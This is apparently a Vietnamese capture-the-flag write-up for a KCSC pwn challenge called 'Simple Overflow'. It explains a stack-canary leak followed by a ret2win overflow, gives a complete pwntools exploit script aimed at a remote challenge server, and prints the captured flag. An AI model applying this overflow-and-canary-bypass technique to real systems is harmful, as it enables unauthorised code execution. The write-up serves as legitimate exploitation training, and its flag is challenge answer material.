






# Simple Overflow.
## Hướng Giải.



- Bài này là ret2win cơ bản , và chương trình cho phép ta nhập số lần lặp ở chỗ nhập `Data` và hmmm ở đây chương trình xài `scanf` và có `puts` có thể sẽ có leak dữ liệu , Vào GDB để tìm khai thác nhé.

- Checksec ở đây có `canary` nhưng mà ko sao với `read` và chương trình cho phép lặp thì ta có thể leak canary và ret2win bình thường.

- dữ liệu ta nhập vào ở chỗ `$rsi` ta chỉ cần tính offset , leak canary .

```
#!/usr/bin/python3

from pwn import *

exe = ELF('simple_overflow', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x0000000000401447
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116', 12004)
else:
        p = process(exe.path)

GDB()
sla(b"Give me your name: ", b'zuy')
sla(b"How many data you want to save?\n", b'2')
payload = b'a'*57
sa(b"Data: ",payload)
p.recvuntil(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
canary = u64(p.recv(7) + b'\x00')
info("canary: " + hex(canary))

payload = b'a'*56 + b'\0' +  p64(canary) + b'a'*7 + p64(exe.sym['win'] + 5)
sa(b"Data: ",payload)


p.interactive()
```
- Vì bài này khá dễ nên mình up script lun , canary của mình leak ko giống với canary của chall và nó bị thiếu null byte ở cuối , cho nên mình cộng thêm 1 byte null vào để bypass cái stack_check_fail :Đ.

- Chạy script thì ta đã thu đc shell ròi.


`FLAG: KCSC{Y0u_g0T_1h3_Sup3R_s3Cr31_F14g}`